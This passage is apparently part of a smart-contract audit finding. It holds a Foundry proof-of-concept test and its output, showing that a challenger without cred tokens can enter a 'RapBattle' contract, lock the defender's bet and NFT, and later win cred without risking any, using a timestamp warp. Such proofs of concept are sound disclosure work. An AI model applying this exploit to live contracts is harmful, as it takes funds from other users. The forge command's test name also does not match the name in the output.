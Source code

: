 ```javascript
        rapBattle.goOnStageOrBattle(0, credBet);
        vm.stopPrank();

        // challenger battles without having cred tokens
        vm.startPrank(challenger2);
        oneShot.mintRapper();
        cred.approve(address(rapBattle), credBet);
        assert(cred.balanceOf(challenger2) == 0);
        assert(oneShot.ownerOf(1) == challenger2);
        oneShot.approve(address(rapBattle), 1);
        vm.recordLogs();
        vm.expectRevert();
        rapBattle.goOnStageOrBattle(0, credBet);
        vm.stopPrank();

        // assertions and logs after 1st round
        Vm.Log[] memory entries = vm.getRecordedLogs(); 
        address winner = address(uint160(uint256(entries[0].topics[2])));
        assertEq(winner, defender);
        console.log("Winner round 1: ", winner);
        // defender's credbet and NFT is stuck in the rapBattle contract...
        // ...until a valid challanger comes or it loses against challenger2
        assert(cred.balanceOf(defender) == 0);
        assert(oneShot.ownerOf(0) == address(rapBattle));

        // 2nd round, challenger2 enters battle again as challenger of defender
        vm.prank(challenger2);
        vm.warp(4 days + 6); // with this, challenger wins if run on local anvil
        vm.recordLogs();
        rapBattle.goOnStageOrBattle(1, credBet);

        // assertions and logs after 2nd round
        Vm.Log[] memory entries_2 = vm.getRecordedLogs(); 
        winner = address(uint160(uint256(entries_2[0].topics[2])));
        assertEq(winner, challenger2);
        console.log("Winner round 2: ", winner);
        assert(cred.balanceOf(defender) == 0); // defender lost 4 cred
        assert(cred.balanceOf(challenger2) == 4); // challenger2 won 4 cred but did not risk any
    }
```

and test it by executing `forge test --mt test_challengerCanBattleWithoutHavingAnNftOrCredTokens`. 

Output:

```
Running 1 test for test/OneShotTest.t.sol:RapBattleTest
[PASS] test_challengerCanBattleWithoutCred() (gas: 574049)
Logs:
  Winner round 1:  0x4fAD2c378d74800f0Be9eAbE53e1236dE790806F
  Winner round 2:  0xd9230796eAB96bC0dDFB7A732aF97F5b482C5b71

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.62ms
```
